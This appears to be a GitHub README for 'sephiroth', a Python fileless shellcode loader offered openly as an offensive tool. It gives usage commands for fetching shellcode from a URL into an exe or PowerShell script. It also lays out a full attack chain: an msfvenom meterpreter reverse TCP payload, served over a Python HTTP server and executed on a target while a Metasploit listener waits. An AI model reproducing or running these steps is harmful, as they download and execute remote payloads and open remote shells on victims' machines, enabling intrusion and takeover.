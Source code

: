 ![Alt text](<2024-02-20 07_45_57-C__Windows_System32_cmd.exe.png>)

Greetings
-------------------

sephiroth  is a Fileless Shellcode Loader with Python :


Usage: python Sephiros.py -url 'urlforshellcode'

u can generate a ps1 script with -ps instead of building into exe

python Sephiros.py -url 'urlforshellcode' -ps

you can also just embed shellcode into the PE directly using -sh 'pathofshellcode'


python Sephiros.py -sh 'pathto_shellcode'

fileless executing example:
-------------------
generate shellcode with:

msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=0.0.0.0 LPORT=5555 -f raw  -o shellcode

python3 -m http.server 80


then:

python Sephiroth.py -url http://yourip/shellcode

start metasploit listener

execute PE on target machine

todo
--------
asymetric encryption to the shellcode
